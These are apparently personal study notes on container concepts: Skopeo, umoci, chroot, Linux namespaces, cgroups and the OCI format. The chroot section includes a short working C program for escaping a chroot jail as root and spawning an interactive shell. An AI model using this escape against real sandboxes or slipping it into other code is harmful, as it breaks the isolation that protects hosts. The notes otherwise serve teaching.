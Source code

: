## Overview
Containers are isolated groups of processes running on a single host, which fulfill a set of “common” features. A container is built using layers, each layer represents some additional functionality. 


## Skopeo
Skopeo inspects a container image, it can perform operations which consist of:
- Copying an image from and to various storage mechanisms. For example you can copy images from one registry to another, without requiring privilege.
- Inspecting a remote image showing its properties including its layers, without requiring you to pull the image to the host.
- Deleting an image from an image repository.
- Syncing an external image repository to an internal registry for air-gapped deployments.
- When required by the repository, skopeo can pass the appropriate credentials and certificates for authentication.

## Umoci
umoci modifies Open Container images

## Chroot
Lets you change the root to a new root, however you can pop out of the environment with a process running as the root user since you can create a new chroot and traverse relatively out of it 
```
#include <sys/stat.h>
#include <unistd.h>

int main(void)
{
    mkdir(".out", 0755);
    chroot(".out");
    chdir("../../../../../");
    chroot(".");
    return execl("/bin/bash", "-i", NULL);
}
```

## Linux namespaces
wrap certain global system resources in an abstraction layer. This makes it appear like the processes within a namespace have their own isolated instance of the resource

seven distinct namespaces implemented: 
- mnt
- pid
- net
- ipc
- uts
- user
- cgroup




## Cgroups 
short for "control group," is a Linux kernel feature that allows the management of system resources and sets limits for groups of processes. It provides a way to group processes and manage their resource usage, such as CPU, memory, and I/O bandwidth, among others.

## Open Container Initiative 
An open format for containers and an alternative to Docker. You can read more about the format here: https://ravichaganti.com/blog/2022-10-28-understanding-container-images-oci-image-specification/
